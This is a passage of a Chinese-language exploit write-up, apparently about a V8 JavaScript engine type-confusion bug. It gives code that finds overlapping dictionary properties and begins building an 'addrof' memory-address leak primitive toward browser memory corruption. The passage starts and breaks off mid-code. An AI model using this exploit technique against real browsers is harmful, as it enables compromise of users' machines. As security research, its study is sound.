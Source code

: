 ```javascript
            ${propertyNames.map((p) => `let ${p} = o.${p};`).join('\n')}
            return [${propertyNames.join(', ')}];
        }
    `);

    let propertyValues = [];
    for (let i = 1; i < NUM_PROPERTIES; i++) {
        // There are some unrelated, small-valued SMIs in the dictionary.
        // However they are all positive, so use negative SMIs. Don't use
        // -0 though, that would be represented as a double...
        propertyValues[i] = -i;
    }

    for (let i = 0; i < MAX_ITERATIONS; i++) {
        let r = hax(makeObj(propertyValues));
        for (let i = 1; i < r.length; i++) {
            // Properties that overlap with themselves cannot be used.
            if (i !== -r[i] && r[i] < 0 && r[i] > -NUM_PROPERTIES) {
                [p1, p2] = [i, -r[i]];
                return;
            }
        }
    }

    throw "Failed to find overlapping properties";
}
```

makeObj函数会创建出带有一个inline属性和NUM_PROPERTIES个out-of-line属性的对象，eval创建的函数为(如NUM_PROPERTIES为2)：

```javascript
function hax(o){
     o.inline;
     this.Object.create(o);
     let p1 = o.p1;
     let p2 = o.p2; 
     return [p1,p2];
}
```

而把propertyValues都设置成负数是为了更方便的确认，因为NameDictionary数组中除了value会是该负数，key和hash都不会为负数，所以后面的判断条件也只需要判断出返回的数组里的某个偏移为负数且大于-NUM_PROPERTIES就可以，当然如果overlap了自己的是不行的

找到了这一对pair后，就可以构造出addrof了：

```javascript
// Return the address of the given object as BigInt.
function addrof(obj) {
    // Confuse an object with an unboxed double property with an object
    // with a pointer property.
    eval(`
        function hax(o) {
            o.inline;
            this.Object.create(o);
            return o.p${p1}.x1;
        }
    `);

    let propertyValues = [];
    // Property p1 should have the same Map as the one used in
    // corrupt for simplicity.
    propertyValues[p1] = {x1: 13.37, x2: 13.38};
    propertyValues[p2] = {y1: obj};

    for (let i = 0; i < MAX_ITERATIONS; i++) {
        let res = hax(makeObj(propertyValues));
```